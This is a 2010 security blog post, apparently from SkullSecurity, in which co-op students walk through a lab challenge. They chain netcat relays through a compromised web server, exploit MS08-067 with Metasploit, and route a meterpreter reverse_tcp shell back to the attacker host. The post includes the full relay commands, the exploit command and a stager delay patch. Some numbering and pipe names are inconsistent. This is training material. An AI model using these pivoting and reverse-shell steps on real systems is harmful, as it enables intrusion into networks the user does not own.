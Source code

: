 ```yaml
---
id: 793
title: 'Five Relays and a Patch'
date: '2010-05-26T08:57:34-05:00'
author: ron
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=793'
permalink: /2010/five-relays-and-a-patch
categories:
    - hacking
    - tools
---
```


Hey all,

We hired a new pair of <a href="http://coop.cs.umanitoba.ca">co-op students</a> recently. They're both in their last academic terms, and are looking for a good challenge and to learn a lot. So, for a challenge, I set up a scenario that forced them to use a series of netcat relays to compromise a target host and bring a meterpreter session back. Here is what the network looked like:
<img style="border-top-width: 0px; border-right-width: 0px; border-bottom-width: 0px; border-left-width: 0px; border-style: initial; border-color: initial; display: block; margin-left: auto; margin-right: auto; " title="Firewall Rules" src="http://www.skullsecurity.org/blogdata/fiverelays-1.png" alt="" width="236" height="494" />
To describe in text:
<ul>
	<li>They have already compromised a Web server with a non-root account</li>
	<li>The Web server has no egress filtering, but full ingress filtering, and they aren’t allowed to install anything (fortunately, it already had Netcat)</li>
	<li>The target server has both egress and ingress filtering, and is not accessible at all from the Internet, but the Web server can connect to it on 139/445 (which are vulnerable to ms08-067). The target can also connect back to the Web server on any port.</li>
</ul>
The challenge was to exploit the target server with ms08-067 and bring a meterpreter session back to the attacker server.
<!--more-->
I had expected this would require 3-4 netcat relays, but, after helping them to get this working, we ended up with 5 relays for a variety of reasons, plus a minor patch to Metasploit! Maybe we did it the hard way, and maybe we didn’t need all those relays, but it was fun to set up and satisfying to get working.

Anyway, I’ll let them explain what they did!
<h2>Five relays and a patch</h2>
The image below shows the various netcat relays we ended up using, in order of execution.

<img style="border-top-width: 0px; border-right-width: 0px; border-bottom-width: 0px; border-left-width: 0px; border-style: initial; border-color: initial; display: block; margin-left: auto; margin-right: auto; " title="Relays" src="/blogdata/fiverelays-2.png" alt="" width="405" height="560" />

The first goal was to find a way to bypass the firewalls.  Metasploit was using default ports 445 for outgoing and 4444 for incoming connections, and since we can't connect to either of those ports on the Web Server (WEB), we needed the WEB to establish a connection back to us.  Fortunately WEB can connect to TARGET on port 445, and can receive a connection back on any port. Thus 2 netcats are running on the WEB are:
<pre> nc HACKER 1234 -vv &lt; pipe4 |  nc TARGET 445 -vv &gt; pipe4</pre>
This command forwards the traffic coming in on port 1234 from the HACKER to TARGET port 445 (Relay #4).
<pre> nc -l -p 4444 -vv &lt; pipe2 | nc HACKER 4442 -vv &gt; pipe2</pre>
This command listens for the meterpreter session back from TARGET on port 4444 and relays it to HACKER on port 4442 (Relay #2).

Why does WEB connect on arbitrary port 1234 instead of connecting to Metasploit's port 445? Well, Metasploit doesn't listen on that port, it needs to initiate the connection. So we need a netcat relay running on HACKER to listen for connection from Metasploit and connect it with the incoming connection from the WEB (Relay #3):
<pre>nc -l -p 1234 -vv &lt; pipe3 | nc -l -p 445 &gt; pipe3</pre>
As you might have noticed the WEB is  connecting back on port 4442, not 4444 on which Metasploit is listening (Relay #2). They cannot be connected directly, as WEB will establish connection immediately when it starts and Metasploit will get confused since its waiting on Meterpreter session and fail. So we need a relay listening on port 4442 on the HACKER and connecting it back to Metasploit, right? Well, not that simple.
<pre> nc -l -p 4443 -vv &lt; pipe1 | nc -l -p 4442 -vv &gt; pipe1</pre>
This command will listen for incoming connection from WEB on port 4442 and relay it to port 4443 when that connection is established (Relay #1). This gives Metasploit time to trigger an exploit and we only establish a final connection to Metasploit  once it did by running a final command:
<pre>nc HACKER 4444 -vv &lt; pipe5 | nc HACKER 4443 -vv &gt; pipe</pre>
This simply establishes a connection to the relay running on the same computer on port 4443 and sends it to Metasploit on port 4444 (Relay #6).

The biggest challenge was getting the timing of the last command right. We needed to activate it after Metasploit starts listening for the reverse_tcp stager but before it sends stage data. If stage data was sent before the entire link was created,the vulnerability would be exploited, but the stage would fail. In order to get the timing right for the final command, a modification to the <em>stager.rb</em> in the <em>lib/msf/core/payload/</em> folder was necessary. We added a three-second delay after the vulnerability has been triggered and before the stage data was sent in order to give us time to link the netcat relays together for the connection back.

This is the patch against the Metaploit version on the Backtrack 4 cd (it'll likely fail against the HEAD revision due to a number of changes):
<pre>Index: stager.rb
===================================================================
--- stager.rb   (revision 8091)
+++ stager.rb   (working copy)
@@ -100,6 +100,9 @@
                                p = (self.stage_prefix || '') + p
                        end

+            print_status("Delaying for three seconds (Start your nc relay).")
+            Kernel.sleep(3)
+
                        print_status("Sending stage (#{p.length} bytes)")

                        # Send the stage
@@ -164,4 +167,5 @@
        #
        attr_accessor :stage_prefix</pre>
Now that everything should be (theoretically) working, we had to make sure to start netcat relays in the right order to make sure they can establish connections, and we had to wait before executing #6 until #2 received a connection established message. The -vv command is optional for all nc instances except in #2, where they are used to determine when to execute #6. We first start all the listener relays and then start the relays that establish connections. The commands were executed in the order provided
<ol>
	<li>This command is run on the HACKER:</li>
<pre>nc -l -p 4443 -vv &lt; pipe1 | nc -l -p 4442 -vv &gt; pipe1</pre>
	<li>This command was run on the WEB:</li>
<pre>nc -l -p 4444 -vv &lt; pipe2 | nc HACKER 4442 -vv &gt; pipe2</pre>
	<li>HACKER:</li>
<pre>nc -l -p 1234 -vv &lt; pipe3 | nc -l -p 445 &gt; pipe3</pre>
	<li>WEB:</li>
<pre>nc HACKER 1234 -vv &lt; pipe4 | nc TARGET 445 -vv &gt; pipe4</pre>
	<li>Now that we have a connection to the target we run an exploit:</li>
<pre>./msfcli exploit/windows/smb/ms08_067_netapi 
 PAYLOAD=windows/meterpreter/reverse_tcp RHOST=HACKER LHOST=WEB E</pre>
	<li>Last command is run on HACKER when Relay #2 displays a detected connection:</li>
<pre>nc HACKER 4444 -vv &lt; pipe5 | nc HACKER 4443 -vv &gt; pipe</pre>
</ol>